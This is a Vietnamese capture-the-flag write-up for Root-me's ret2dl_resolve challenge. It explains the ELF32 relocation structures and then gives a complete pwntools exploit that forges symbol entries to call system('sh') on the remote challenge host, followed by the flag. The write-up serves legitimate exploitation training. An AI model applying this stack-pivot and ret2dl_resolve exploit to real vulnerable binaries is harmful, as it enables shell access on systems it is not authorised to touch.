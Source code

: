 # Ret2dl_resolve
# Reverse
Thông tin về challenge trên web.
![challenge_info](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/challenge_info.png)
Sử dụng lệnh SCP để kéo file challenge trên web root-me về.
![pull_challenge](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/pull_challenge.png)
Kéo file vừa kéo về máy vào IDA để xem pseudo code.
![main_func](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/main_func.png)

Nhận thấy rằng, trong hàm main chỉ gọi duy nhất 1 hàm read, không thể leak địa chỉ (không có thêm bất kỳ 1 hàm nào có chức năng in ra màn hình), như vậy không thể dùng ret2libc để khai thác được. Chúng ta sẽ dùng kỹ thuật có tên là Ret2dl_resolve để giải quyết challenge này.
# Exploit

## Một số cấu trúc struct sử dụng trong kỹ thuật ret2dl_resolve

### ELF32_REL structure
```c
typedef uint32_t Elf32_Addr ; 
typedef uint32_t Elf32_Word ; 
typedef struct 
{
   Elf32_Addr r_offset ; /* Address */ 
   Elf32_Word r_info ; /* Relocation type and symbol index */ 
} Elf32_Rel ; 
#define ELF32_R_SYM(val) ((val) >> 8) 
#define ELF32_R_TYPE(val) ((val) & 0xff)
```
### ELF32_SYM structure
```c
typedef struct
{
   Elf32_Word st_name ; /* Symbol name (string tbl index) */
   Elf32_Addr st_value ; /* Symbol value */
   Elf32_Word st_size ; /* Symbol size */
	 unsigned char st_info ; /* Symbol type and binding */
	 unsigned char st_other ; /* Symbol visibility under glibc>=2.2 */
   Elf32_Section st_shndx ; /* Section index */
} Elf32_Sym ;
```
Đầu tiên cần lấy thông tin resolver thông qua read_plt, là đối tượng chúng ta sẽ ret về để thực hiện kỹ thuật này.
![resolver](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/resolver.png)
Tiến hành lấy thông tin địa chỉ của 3 đối tượng SYMTAB, STRTAB, JMPREL (.rel.plt) 
![readelf](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/readelf.png)
![Check_R_SYM_TYPE](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/ELF_32_R_SYM_TYPE.png)

Chúng ta sẽ có 1 số trường:

* Cột Name cho mình biết tên symbol: read@GLIBC_2.0
* Cột Offset là địa chỉ của mục GOT cho symbol tương ứng: 0x0804a00c
* Cột Info lưu trữ thêm metadata như là ELF32_R_SYM hoặc ELF32_R_TYPE

Theo như định nghĩ MACROS, ELF32_R_SYM(r_info) == 1 (r_info >> 8)
và ELF32_R_TYPE(r_info) == 7 (r_info & 0xff) (R_386_JUMP_SLOT).

### _dl_runtime_resolve ( link_map , rel_offset )
```py
_dl_runtime_resolve(link_map, rel_offset) {
    Elf32_Rel * rel_entry = JMPREL + rel_offset ;
    Elf32_Sym * sym_entry = &SYMTAB [ ELF32_R_SYM ( rel_entry -> r_info )];
    char * sym_name = STRTAB + sym_entry -> st_name ;
    _search_for_symbol_(link_map, sym_name);
    // invoke initial read call now that symbol is resolved
    read(0, buf, 0x100);
}
```
fake_rel_off = địa chỉ đã chuẩn bị trước - JMPREL

Elf32_sym =  SYMTAB + ELF32_R_SYM(r_info>>8) * sizeof(Elf32_sym) 

nên muốn fake r_info thì làm ngược lại.

## File Exploit

```py
from pwn import *
#r = process("./ch77")
#con_ssh = ssh(host='challenge03.root-me.org',port=2223,user='app-systeme-ch77',password='app-systeme-ch77')
#r = con_ssh.run("./ch77")
r = remote("challenge03.root-me.org","56577")
_elf = ELF("./ch77")

pause()

resolver = 0x80482d0    #push link_map and call dl_resolve
buf = 0x804af00         #controllable area (.bss)
leave_ret = 0x08048398   #gadget
SYMTAB = 0x80481cc
STRTAB = 0x804821c
JMPREL = 0x8048298

# Pivoting the stack and calling read(0, buf, 0x80)
buffer = ""
buffer += "A"*24
buffer += p32(buf)   #stack pivoting. (esp = buff)
buffer += p32(_elf.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) 


# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_sym

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7 

elf32_rel = p32(_elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

buffer2 = 'AAAA'                #fake ebp
buffer2 += p32(resolver)        # ret-to dl_resolve
buffer2 += p32(rel_offset)      #JMPRL + offset = struct
buffer2 += 'AAAA'               #fake return 
buffer2 += p32(buf+100)         # system parameter
buffer2 += elf32_rel            # (buf+0x14)
buffer2 += 'A' * align
buffer2 += elf32_sym_struct     # (buf+0x20)
buffer2 += "system\x00"
buffer2 = buffer2.ljust(100,'A')
buffer2 += "sh\x00"
p = (0x80 - len(buffer2))
buffer2 += "A" * p              #total read size

r.send(buffer)
r.send(buffer2)
r.interactive()
```
## Flag = RootMe{No_n33d_to_l34k_to_get_a_sh3LL}